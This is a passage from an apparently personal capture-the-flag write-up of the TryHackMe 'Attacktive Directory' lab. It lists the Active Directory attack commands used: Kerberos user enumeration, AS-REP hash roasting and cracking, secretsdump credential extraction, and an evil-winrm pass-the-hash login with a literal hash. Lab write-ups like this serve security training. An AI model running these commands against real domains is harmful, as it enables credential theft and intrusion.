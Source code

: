```yaml
---
title: Writeup - Attacktive Directory
author: Fr3akazo1d!
date: 2020-11-03 
categories: [Hacking, Walkthrough]
tags: [tryhackeme, Active Direcotry, hacking, pwned, enum4linux, kerbrute]
image: /assets/img/thm-images/THM-AttactriveDirctory.png
image: /assets/img/thm-images/THM-AttactriveDirctory-1.png
---
```

# General Information

| Room        | Date        | Difficulty | Tags                               | Time |
| ----------- | ----------- | ---------- | ---------------------------------- | ---- |
| Attacktive Directory | 03.11.2020  | medium       | Active Directory, AD, Kerberos, SMB | 6h   |


# Used Programs

| Program  | Command |
| --------- | -------- |
| namp     | nmap -sC -sV -oN nmap/initial $ip|
| rustscan | rustscan $ip --ulimit 5000 -- -sC -sV -oN nmap/initial  tee output |
| enum4linux | enum4linux -d $ip | 
| kerbrute | ./kerbrute_linux_amd64 userenum -d spookysec.local --dc spookysec.local '/home/fr3akazo1d/Pen-Testing/THM/Boxes/AttractiveDirectory/user.txt' |
| GetNPUser.py | python3 GetNPUsers.py spookysec.local/s*******n -no-pass |
| JohnTheRipper | sudo john kerberushash --wordlist=password.txt  |
| metapsloit | msf6 auxiliary(admin/smb/download_file) |
| smbclient | smbclient \\\\spookysec.local\\backup -U s*******n |
| secretsdump.py | python3 secretsdump.py -just-dc backup@spookysec.local |
| evil-winrm | evil-winrm -u administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.124.175 |

# Usefull Information 

I have added the IP-Address of the room to my local /etc/hosts file, because we need it for further enumeration of the domain controller. 

# Impacket

For this Room we have to install Impacket. 
